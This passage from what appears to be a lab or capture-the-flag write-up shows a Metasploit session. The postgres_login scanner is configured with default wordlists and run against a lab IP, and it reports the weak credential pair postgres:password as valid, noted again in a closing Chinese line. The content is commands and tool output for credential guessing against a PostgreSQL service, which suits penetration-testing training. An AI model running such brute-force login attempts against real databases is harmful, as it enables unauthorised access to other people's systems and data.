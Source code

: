 ```
   DB_ALL_USERS      false                                        no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                         no        Skip existing credentials stored in the current database (Accepted: none, user,
                                                                             user&realm)
   PASSWORD                                                       no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wordli  no        File containing passwords, one per line
                     sts/postgres_default_pass.txt
   Proxies                                                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RETURN_ROWSET     true                                         no        Set to true to see query result sets
   RHOSTS                                                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basic
                                                                            s/using-metasploit.html
   RPORT             5432                                         yes       The target port
   STOP_ON_SUCCESS   false                                        yes       Stop guessing when a credential works for a host
   THREADS           1                                            yes       The number of concurrent threads (max one per host)
   USERNAME                                                       no        A specific username to authenticate as
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordli  no        File containing (space-separated) users and passwords, one pair per line
                     sts/postgres_default_userpass.txt
   USER_AS_PASS      false                                        no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordli  no        File containing users, one per line
                     sts/postgres_default_user.txt
   VERBOSE           true                                         yes       Whether to print output for all attempts


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/postgres/postgres_login) > setg RHOSTS 10.10.205.125
RHOSTS => 10.10.205.125
msf6 auxiliary(scanner/postgres/postgres_login) > set VERBOSE false
VERBOSE => false
msf6 auxiliary(scanner/postgres/postgres_login) > run

[+] 10.10.205.125:5432 - Login Successful: postgres:password@template1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

发现有效的登录凭据：postgres:password
